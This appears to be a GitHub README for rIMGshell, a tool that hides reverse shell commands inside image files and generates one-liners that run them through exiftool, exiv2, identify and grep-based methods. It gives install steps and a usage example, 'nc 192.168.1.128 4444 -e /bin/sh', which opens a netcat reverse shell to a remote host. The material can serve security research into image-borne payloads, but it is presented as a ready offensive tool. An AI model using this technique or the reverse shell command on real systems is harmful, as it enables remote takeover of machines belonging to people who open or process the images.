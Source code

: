 # rIMGshell

```
# rIMGshell

<img src="https://github.com/git5loxosec/rIMGshell/blob/main/Screenshot_2023-09-22_20_08_14.png">

![GitHub](https://img.shields.io/github/license/git5loxosec/rIMGshell)

rIMGshell is a command-line tool for injecting a reverse shell command into an image and generating one-liner execution methods to exploit it.

## Features

- Inject reverse shell commands into image files.
- Generate one-liner execution methods for various tools.
- Choose from multiple one-liner execution methods.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rIMGshell.git
   ```

2. Change to the project directory:

   ```
   cd rIMGshell
   ```

3. Make the script executable:

   ```
   chmod +x rIMGshell.sh
   ```

## Usage

```
./rIMGshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rIMGshell.sh "nc 192.168.1.128 4444 -e /bin/sh" image.jpg
```

## One-Liner Execution Methods

- **exiftool-one-liner:** Injected image can be executed with exiftool.
- **exiv2-one-liner:** Injected image can be executed with exiv2.
- **identify-one-liner:** Injected image can be executed with identify.
- **file-grep-one-liner:** Injected image can be executed with file and grep.
- **jpeginfo-grep-one-liner:** Injected image can be executed with jpeginfo and grep.

## Contributing

Contributions are welcome! Please fork the repository and submit a pull request.

## License

This project is licensed under the [MIT License](LICENSE).
```
